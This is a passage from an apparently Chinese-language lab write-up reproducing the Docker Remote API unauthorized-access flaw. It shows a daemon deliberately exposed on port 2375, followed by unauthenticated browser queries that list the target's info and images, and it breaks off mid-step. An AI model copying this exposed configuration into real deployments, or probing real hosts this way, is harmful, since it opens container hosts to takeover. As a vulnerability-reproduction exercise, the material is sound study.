 然后执行：

```
systemctl daemon-reload      ///重新加载某个服务程序的配置文件

systemctl restart docker.service     //重启docker服务
```
如果没有错误提示，则表示 dockerd 已经成功监听，可以通过如下命令进行验证：
```
curl "http://127.0.0.1:2375/v1.25/info"
```
测试截图：
![图片](https://uploader.shimo.im/f/Kwu17i9YtoEf4V87.png!thumbnail)

**此处是为了复现此漏洞，所以这么修改。真实生产环境一定不要这么该配置！！！！**

拉取一个镜像：

```
docker pull ubuntu:18.04
```
利用拉取的镜像创建个容器：
```
docker run -d ubuntu:18.04 /bin/bash -c 'while true; do sleep 1; done'
```
参考：
![图片](https://uploader.shimo.im/f/Cbv6Tb1Ax6QJZ49f.png!thumbnail)

# 漏洞复现：
## 浏览器直接访问：
1. 获取 docker 信息：

[http://172.26.1.97:2375/info](http://172.26.1.97:2375/info)

![图片](https://uploader.shimo.im/f/Ff56QOZ5AoIo1Bvf.png!thumbnail)

2. 获取image列表：

[http://172.26.1.97:2375/images/json](http://172.26.1.97:2375/v1.25/images/json)

![图片](https://uploader.shimo.im/f/nh0XngoZAL06Ir8k.png!thumbnail)

如下：

[{"Containers":-1,"Created":1568848827,"Id":"sha256:2ca708c1c9ccc509b070f226d6e4712604e0c48b55d7d8f5adc9be4a4d36029a","Labels":null,"ParentId":"","RepoDigests":["ubuntu@sha256:b88f8848e9a1a4e4558ba7cfc4acc5879e1d0e7ac06401409062ad2627e6fb58"],"RepoTags":["ubuntu:18.04"],"SharedSize":-1,"Size":64187291,"VirtualSize":64187291},{"Containers":-1,"Created":1546306167,"Id":"sha256:fce289e99eb9bca977dae136fbe2a82b6b7d4c372474c9235adc1741675f587e","Labels":null,"ParentId":"","RepoDigests":["hello-world@sha256:c3b4ada4687bbaa170745b3e4dd8ac3f194ca95b2d0518b417fb47e5879d9b5f"],"RepoTags":["hello-world:latest"],"SharedSize":-1,"Size":1840,"VirtualSize":1840}]

浏览器装了JSON-handle插件后访问：
